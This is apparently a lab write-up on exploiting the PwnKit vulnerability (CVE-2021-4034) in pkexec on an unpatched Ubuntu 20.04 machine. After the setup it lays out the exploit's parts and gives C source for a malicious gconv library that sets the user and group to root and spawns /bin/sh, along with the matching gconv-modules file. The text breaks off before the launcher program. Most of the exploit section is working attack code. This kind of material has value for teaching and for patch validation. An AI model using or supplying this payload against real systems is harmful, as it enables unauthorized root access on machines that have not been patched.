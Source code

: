 - Operating system: **[Ubuntu 20.04 LTS](https://old-releases.ubuntu.com/releases/20.04.0/)** (a version released before the patch)
- Configuration: Standard installation with default polkit
- Users: A non-privileged user "user" was created

I checked for the presence of the `pkexec` binary and its permissions:

```bash
$ ls -la /usr/bin/pkexec:
-rwsr-xr-x 1 root root 31032 gen 13 2021 /usr/bin/pkexec
```

# 4. Exploit Development

@Alberto Bettini

To exploit the **CVE-2021-4034** (PwnKit) vulnerability, I followed the method described by **PwnFunction** on GitHub. The idea is to "trick" `pkexec` into loading a **library we created**, which gets executed with **root privileges**.

## 4.1 Exploit Structure

The exploit is made of **three elements:**

1. A **malicious library** (`evil-so.c`) that contains our code to run as root.  
2. A **configuration file** (`gconv-modules`) that tells the system how to use that library.  
3. A **script or program (`exploit.c`)** that creates the needed folders and environment variables, then launches `pkexec`.

### `evil-so.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}

void gconv_init() {
    setuid(0);         // Set user to root
    setgid(0);         // Set group to root
    setgroups(0);      // Remove any other groups
    execve("/bin/sh", NULL, NULL);  // Open a shell
}
```

This `gconv_init()` function is automatically called by the system when `pkexec` tries to load a character conversion module, as we will see later.

### `gconv-modules`

This is a simple text file that tells the system where our fake module (`evil.so`) is located.

```
module  INTERNAL  BRUH//  evil   2
```
